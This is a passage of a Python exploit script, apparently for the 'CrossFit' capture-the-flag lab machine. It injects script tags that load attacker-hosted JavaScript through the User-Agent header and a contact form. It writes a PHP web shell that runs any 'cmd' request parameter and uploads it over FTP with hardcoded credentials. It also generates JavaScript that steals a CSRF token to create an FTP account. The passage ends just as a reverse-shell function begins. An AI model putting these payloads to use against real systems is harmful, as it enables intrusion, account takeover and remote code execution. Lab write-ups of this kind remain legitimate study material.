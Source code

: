 ```py
    headers = {"User-Agent": "<script src=\"http://%s/0x4rt3mis_auto.js\"></script>" %lhost, "Content-Type": "application/x-www-form-urlencoded"}
    data = {"name": "0x4rt3mis", "email": "0x4rt3mis@email.com", "phone": "123456", "message": "<script src=\"http://10.10.10.10/\"></script>", "submit": "submit"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    
def uploadPHP():
    # Create the cmd.php file
    print("[+] Creating and sending the cmd file !! [+]")
    os.system('echo "<?php system(\$_REQUEST[\'cmd\']); ?>" > cmd.php')
    os.system('sleep 1')
    os.system('lftp -c "open -u 0x4rt3mis,0x4rt3mis0x4rt3mis ftp.crossfit.htb; set ssl:verify-certificate false; put -O development-test/ cmd.php"')
    print("[+] Done, let's get the reverse shell ! [+]")
    
# Function to make the js to do the ftp user
def createPayloadFTP():
    print("[+] Creating the js to create the payload !! [+]")
    payload = "// Function to parse the response and get the token from it\n"
    payload += "function getToken(response){\n"
    payload += "        var parser = new DOMParser();\n"
    payload += "        var response_text = parser.parseFromString(response, 'text/html');\n"
    payload += "        return response_text.getElementsByName('_token')[0].value;\n"
    payload += "}\n"
    payload += "\n"
    payload += "// Function to make the things happen\n"
    payload += "function createAccount(){\n"
    payload += "        // Get the Token\n"
    payload += "        var req_token = new XMLHttpRequest();\n"
    payload += "        // Request both from get token and create user must be in the same session\n"
    payload += "        req_token.onreadystatechange = function(){\n"
    payload += "                if (req_token.readyState == XMLHttpRequest.DONE) {\n"
    payload += "                        var token = getToken(req_token.responseText);\n"
    payload += "                        // Create the account in the same 'session'\n"
    payload += "                        var req_create = new XMLHttpRequest();\n"
    payload += "                        var url_create = 'http://ftp.crossfit.htb/accounts';\n"
    payload += "                        req_create.open('POST', url_create, false);\n"
    payload += "                        req_create.withCredentials = true;\n"
    payload += "                        req_create.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');\n"
    payload += "                        var values = 'username=0x4rt3mis&pass=0x4rt3mis0x4rt3mis&_token=' + token;\n"
    payload += "                        req_create.send(values);\n"
    payload += "                }\n"
    payload += "        }\n"
    payload += "        // After parse everything, just trigger it\n"
    payload += "        var url = 'http://ftp.crossfit.htb/accounts/create';\n"
    payload += "        req_token.open('GET', url, false);\n"
    payload += "        req_token.withCredentials = true;\n"
    payload += "        req_token.send();\n"
    payload += "}\n"
    payload += "\n"
    payload += "\n"
    payload += "// Trriger the account creation\n"
    payload += "createAccount()"
    f = open("0x4rt3mis_auto.js", "w")
    f.write(payload)
    f.close()
    print("[+] JS Created !! [+]")
    
def getReverseShell(lhost,lport):
    payload = "// Function just to try rev shell\n"
```